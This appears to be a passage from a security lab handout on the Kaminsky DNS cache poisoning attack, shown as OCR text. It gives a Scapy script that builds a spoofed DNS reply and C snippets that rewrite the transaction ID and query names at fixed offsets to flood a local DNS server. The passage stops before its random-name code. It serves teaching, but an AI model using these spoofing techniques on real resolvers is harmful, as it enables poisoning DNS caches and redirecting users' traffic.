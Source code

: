 Listing 1:generatednsreply.py
#!/usr/bin/env python
from scapy.all import *

# Construct the DNS header and payload
name = ’twysw.example.com’
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type=’A’, rdata=’1.1.2.2’, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=0, qr=1,
qdcount=1, ancount=1, nscount=0, arcount=0,
qd=Qdsec, an=Anssec)

# Construct the IP, UDP headers, and the entire packet
ip = IP(dst=’10.0.2.7’, src=’1.2.3.4’, chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# Save the packet to a file
with open(’ip.bin’, ’wb’) as f:
f.write(bytes(pkt))


In a C program, we load the packet from the fileip.bin, and use it as our packet template, based on
which we create many similar packets, and flood the target local DNS servers with these spoofed replies.
For each reply, we change three places: the transaction ID and the nametwyswoccurred in two places (the
question section and the answer section). The transaction ID is at a fixed place (offset 28 from the beginning
of our IP packet), but the offset for the nametwyswdepends on the length of the domain name. We can use
a binary editor program, such asbless, to view the binary fileip.binand find the two offsets oftwysw.
In our packet, they are at offsets 41 and 64.
The following code snippet shows how we make change to these fields. We change the name in our reply
tobbbbb.example.com, and then send out a spoofed DNS replies, with transaction ID being 1000. In
the code, the variableippoints to the beginning of the IP packet.

```
// Modify the name in the question field (offset=41)
memcpy(ip+41, "bbbbb" , 5);
```
```
// Modify the name in the answer field (offset=64)
memcpy(ip+64, "bbbbb" , 5);
```
```
// Modify the transaction ID field (offset=28)
unsigned short id = 1000;
unsigned short id_net_order = htons(id);
memcpy(ip+28, &id_net_order, 2);
```
Generate random names. In the Kaminsky attack, we need to generate random hostnames. There are
many ways to do so. The following code snippet shows how to generate a random name consisting of 5
characters.
